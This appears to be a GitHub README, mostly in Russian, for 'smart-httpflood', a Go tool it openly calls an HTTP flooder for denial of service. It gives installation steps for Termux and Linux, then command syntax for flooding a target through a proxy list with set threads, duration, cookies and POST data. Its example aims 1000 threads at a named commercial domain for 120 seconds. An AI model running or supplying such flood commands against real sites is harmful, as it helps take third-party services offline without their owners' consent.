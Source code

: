 # smart-httpflood
Простой http флуддер(DoS) на Go

This script supports HTTP Version, Cookie and Post Data.
<h4>Поддерживает:</h4>
HTTP, куки, POST запросы
Установка:
Зависит от вашей платформы. Поддерживает Termux и Linux
<b>Termux:</b><br>
<code>pkg install golang</code>

<b>Manjaro Linux(Arch дистры):</b><br>
<code>sudo pacman -S go</code>

<b>Kali Linux(Debian дистры, если что Ubuntu к ним относится):</b><br>
<code>sudo apt install golang</code>

Далее для всех платформ одинаковые команды:<br>
<code>git clone https://github.com/ret7020/smart-httpflood/</code><br>
<code>cd smart-httpflood</code><br>
<code>go build</code><br>

<h4>Использование</h4><br>

<b>Формат команды:</b><br>
<code>./StresserUS version=<version> host=<host> domain=<host header> limit=<rs-ip> time=<time> list=<proxies.txt> threads=<threads> mode=GET/POST cookie=<ddos=true> data=<post=true></code><br>

  Пример команды:<br>
 <code>./StresserUS version=2 host=https://pizza-delivery.com limit=64 time=120 list=proxy.txt threads=1000 mode=GET</code>
